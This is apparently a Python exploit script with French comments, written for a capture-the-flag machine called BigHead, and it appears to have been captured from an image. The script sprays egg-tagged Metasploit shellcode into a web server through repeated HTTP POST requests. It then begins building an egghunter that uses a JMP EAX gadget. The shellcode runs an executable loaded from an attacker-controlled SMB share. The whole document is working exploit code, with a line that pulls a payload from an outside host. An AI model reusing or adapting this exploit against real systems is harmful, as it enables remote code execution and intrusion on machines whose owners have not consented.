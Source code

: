 ```python
import socket
import struct
from binascii import hexlify
from time import sleep

TARGET = '10.10.10.112'
PORT = 80

jmp_eax = 0x625012F2  # JMP EAX from bHeadSvr.dll
egg = "LOTF"
egg_minus_one = struct.unpack("I", egg.encode())[0] - 1

# Metasploit windows/exec shellcode with EXITFUNC=thread
buf =  b""
buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
buf += b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
buf += b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
buf += b"\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
buf += b"\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
buf += b"\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
buf += b"\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
buf += b"\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
buf += b"\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
buf += b"\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
buf += b"\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00"
buf += b"\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xe0\x1d"
buf += b"\x2a\x0a\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a"
buf += b"\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53"
buf += b"\xff\xd5"
buf += b"\\\\10.10.14.240\\public\\devloop.exe"
buf += b"\x00"

data = egg.encode() + buf

socket.setdefaulttimeout(5)

# On insère plusieurs fois notre shellcode dans la mémoire du process, ça peut permettre de le trouver plus vite
for i in range(10):
    print(i)
    sock = socket.socket()
    sock.connect((TARGET, PORT))

    buff = b"POST / HTTP/1.1\r\n"
    buff += b"Host: dev.bighead.htb\r\n"
    buff += "Content-Length: {}\r\n\r\n".format(len(data)).encode()
    buff += data
    try:
        sock.send(buff)
        sock.recv(4)
    except socket.timeout:
        pass
    sock.close()

sock = socket.socket()
sock.connect((TARGET, PORT))
print("Sending shellcode...")

shellcode = "/90"          # change to /CC for debuging
shellcode += "5E"          # pop esi
# put tag minus one in ebx
shellcode += "bb" + hexlify(struct.pack("I", egg_minus_one)).decode()
shellcode += "43"          # inc ebx
```